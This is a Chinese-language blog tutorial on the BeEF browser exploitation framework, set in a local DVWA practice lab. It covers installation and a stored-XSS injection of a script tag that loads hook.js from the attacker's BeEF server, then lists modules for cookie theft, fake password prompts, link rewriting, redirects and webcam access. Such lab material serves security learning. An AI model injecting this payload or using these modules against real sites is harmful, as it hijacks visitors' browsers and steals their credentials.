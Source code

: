 ```yaml
---
layout:    post
title:     BeFF
subtitle:  学习学习
date:      2021-04-07
author:    lll-yz
header-img: img/post-bg-coffee.jpg
catalog:    true
tags:

   - 工具
---
```


### BeFF

#### BeFF简介

Browser Exploitation Framework （BeEF）

BeFF 是目前最强大的浏览器开源渗透测试框架，通过xss漏洞配合JS脚本和Metasploit进行渗透，BeFF 是基于Ruby语言编写的，并且支持图形化操作，操作简单。

BeFF 主要是往网页中插入一段名为**hook.js**的JS脚本代码，如果浏览器访问有了**hook.js(钩子)**的页面，就会被hook(钩住)，勾连的浏览器会执行初始代码返回一些信息，接着目标主机会每隔一段时间(默认1秒)就会向BeFF服务器发送一个请求，询问是否有新的代码需要执行。BeFF服务器本质上就像一个Web应用，被分为前端和后端。前端会询问后端是否有新的数据需要更新，同时前端也可以向后端发送指示，BeFF持有者可以通过浏览器来登录BeFF后端，来控制前端(用户的浏览器)。

框架：

[![cGNjKJ.md.png](https://z3.ax1x.com/2021/04/07/cGNjKJ.md.png)](https://imgtu.com/i/cGNjKJ)

[![cGUpUx.md.png](https://z3.ax1x.com/2021/04/07/cGUpUx.md.png)](https://imgtu.com/i/cGUpUx)

#### BeFF安装

在Kali中安装：

```
apt-get update
apt-get install beef-xss

cd /usr/share/beef-xss/  //切换到beef目录
./beef  //打开beef
```

开启命令后提示不要使用默认账号密码：

```
[!] ERROR: Don't use default username and password!
|_  Change the beef.credentials.passwd in /etc/beef-xss/config.yaml
```

去修改配置：

```
vim /etc/beef-xss/config.yaml
```

[![cGde4P.png](https://z3.ax1x.com/2021/04/07/cGde4P.png)](https://imgtu.com/i/cGde4P)

修改后，启动beef，在浏览器访问3000端口，``/ui/authentication``路径。

[![cGdxbj.png](https://z3.ax1x.com/2021/04/07/cGdxbj.png)](https://imgtu.com/i/cGdxbj)

使用修改的账号密码登录即可。

#### BeFF使用

[![cG0pOe.png](https://z3.ax1x.com/2021/04/07/cG0pOe.png)](https://imgtu.com/i/cG0pOe)

开启beef后，会有如下信息：

```
running on network interface: 127.0.0.1
[21:17:28]    |   Hook URL: http://127.0.0.1:3000/hook.js
[21:17:28]    |_  UI URL:   http://127.0.0.1:3000/ui/panel
[21:17:28][*] running on network interface: 192.168.216.129
[21:17:28]    |   Hook URL: http://192.168.216.129:3000/hook.js
[21:17:28]    |_  UI URL:   http://192.168.216.129:3000/ui/panel
```

其中``http://192.168.216.129:3000/hook.js``就是我们要用到的。

emmm，就本机的DVWA练习吧。

在DVWA的XSS(stored)演示：

在修改浏览器前端限制输入长度后，插入：``<script src="http://192.168.216.129:3000/hook.js"></script>``

[![cGDlR0.md.png](https://z3.ax1x.com/2021/04/07/cGDlR0.md.png)](https://imgtu.com/i/cGDlR0)

成功插入，然后返回beef访问：

[![cGD0Rx.md.png](https://z3.ax1x.com/2021/04/07/cGD0Rx.md.png)](https://imgtu.com/i/cGD0Rx)

可以看到在线浏览器中出现了我们攻击的目标机(这里我的攻击机与受害机都是一个，所以只显示一个)

我们先了解一下beef的功能：

[![cGDHeg.png](https://z3.ax1x.com/2021/04/07/cGDHeg.png)](https://imgtu.com/i/cGDHeg)

点击当前在线主机，然后右边会有选择框(如上)，我们点击 Current Browser ，然后下方会出现一些功能项：Details、Logs、Commands、XssPays、Network、WebRTC。

+ Details：浏览器信息详情。

+ Logs：记录被攻击者在浏览器上的操作，点击，输入操作等。

  记录了受害者在被植入脚本的页面进行的操作，如：点击鼠标、输入的内容。

+ Commands：攻击者可以对该浏览器进行的操作。

#### Commands

点击Command，这里有一些我们可以使用的功能分类，一共有12个大的功能，括号里面的是每个功能分类里面的个数。

[![cGrDts.png](https://z3.ax1x.com/2021/04/07/cGrDts.png)](https://imgtu.com/i/cGrDts)

> ```
> Broser：主要是针对浏览器的一些信息收集或攻击，其下的子选项卡Hooked Domain主要是获取HTTP属性值，比如cookie、表单值等，还可以做写简单的浏览器操作，比如替换href值，弹出警告框，重定向浏览器等。这个选项卡下的有些模块会根据受害者的浏览器来决定是否显示。主要是浏览器通用操作和其他基本信息检测。
> 
> Chrome extensions：主要是针对谷歌浏览器扩展插件
> 
> Debug：调试功能
> 
> Exploits：漏洞利用，主要利用一些已公开的漏洞进行攻击测试
> 
> Host：针对主机，比如检测主机的浏览器、系统信息、IP地址、安装软件等等
> 
> IPEC：协议间通信。主要是用来连接、控制受害者浏览器的
> 
> Metasploit：Beef可通过配置和metasploit平台联合，一旦有受害者出现，可通过信息收集确定是否存在漏洞，进一步方便metasploit攻击测试
> 
> Misc：杂项。
> 
> Network：网络扫描
> 
> Persistence：维护受害者访问
> 
> Phonegap：手机测试
> 
> Social engineering：社会工程学攻击
> ```

```
绿色模块：可以执行且目标不可见
红色模块：不适合当前目标
橙色模块：可以执行但目标可见
灰色模块：未在目标浏览器上测试过
```

点击相对应的功能后，点击右下角的执行按钮，执行后可以查看执行结果。

[![cGsagx.md.png](https://z3.ax1x.com/2021/04/07/cGsagx.md.png)](https://imgtu.com/i/cGsagx)

- `Get Cookie`  该模块将从当前页面检索会话cookie。
- `Get From Vakues`  该模块检索页面上所有输入字段的名称，类型和值。
- `Get Page HREFs ` 该模块将从目标页面检索所有超链接。
- `Get Page HTML`  该模块将从当前页面检索HTML。
- `Get Page and iframe HTML` 该模块将从当前页面和任何iframe（具有相同来源）中检索HTML。
- `Remove stuck iframe` 该模块将删除所有卡住的iframe（请注意，它将删除该节点上的所有iframe！）。
- `Replace HREFs` 该模块将重写所有匹配链接的所有href属性。
- `Replace HREFs(click Events)`  该模块将使用Bilawal Hameed对click事件处理的更新来重写所有匹配链接的所有href属性。这将隐藏所有更新链接的目标站点。（意思是鼠标点向超链接，超链接任然会下会显示原来的链接，但是点击之后跳转到指定的网站）
- `Replace HREFs (HTTPS)`  该模块将重写HTTPS链接的所有href属性，以使用HTTP代替HTTPS。相对于Web根的链接不会被重写。
- `Replace HREFs (TEL)` 此模块将重写电话链接的所有href属性（即tel：5558585）以拨打您选择的号码。
- `Fingerprint Ajax`   钩住的页面上有指纹Ajax和JS库。
- `Overflow Cookie Jar`  该模块尝试执行John Wilander的CookieJar溢出。他在Owasp  1-liner项目中证明了这一点。使用此模块，可以擦除具有HTTPOnly标志和/或HTTPS标志的cookie。之后，您可以尝试重新创建这些cookie作为普通cookie。
- `Create Alert Dialog`   将警报对话框发送到挂钩的浏览器。
- `Create Prompt Dialog` 将结束对话框的提示对话框。(这个可以填入，您的密码已过期，请重新输入。然后beef这边会接收输入的数据)
- `Redirect Browser`    该模块会将选定的已挂钩的浏览器重定向到“重定向URL”输入中指定的地址。(直接重定向跳转)
- `Redirect Browser (Rickroll)`   用全屏Rickroll覆盖受害者所在页面的正文。(受害者页面全屏变白了)
- `Redirect Browser (iFrame)`  他的模块创建了100％x  100％的重叠iframe，并使浏览器始终挂在框架上。iframe的内容，页面标题，页面快捷方式图标和时间延迟在以下参数中指定。URL栏的内容在挂钩的浏览器中不会更改。(此时虽然页面变了，但只是iframe的作用，所以主机不会掉线，但是如果其他直接重定向跳转到其他链接，主机就会掉线)
- `Replace Component (Deface)`   覆盖挂钩页面的特定组件。
- `Replace Content (Deface)`  覆盖页面上的页面，标题和快捷方式图标。
- `Replace Videos`   使用包含您选择的youtube视频的嵌入标签（默认为rickroll）替换用jQuery选择的对象（默认情况下为所有嵌入标签）。

其他功能：

+ `Play Sound`   在挂钩的浏览器上播放声音。
+ `Webcam`        该模块将向用户显示Adobe  Flash“允许网络摄像头”对话框。用户必须单击允许按钮，否则该模块将不返回图片。可以定制说服用户的标题/文本。您可以自定义要拍摄的照片数量和间隔时间（默认情况下将拍摄20张照片，每秒1张照片）。图片以base64编码的JPG字符串发送。
+ `Webcam Pemission Check`   该模块将检查用户是否已允许BeEF域（或所有域）使用Flash访问摄像头和麦克风。该模块是透明的，用户不应检测到该模块（即不会出现请求权限的弹出窗口）

再来个弹窗功能演示：

[![cYlADx.md.png](https://z3.ax1x.com/2021/04/08/cYlADx.md.png)](https://imgtu.com/i/cYlADx)

返回弹窗：
[![cYld2j.png](https://z3.ax1x.com/2021/04/08/cYld2j.png)](https://imgtu.com/i/cYld2j)

还有很多的功能，之后在介绍了。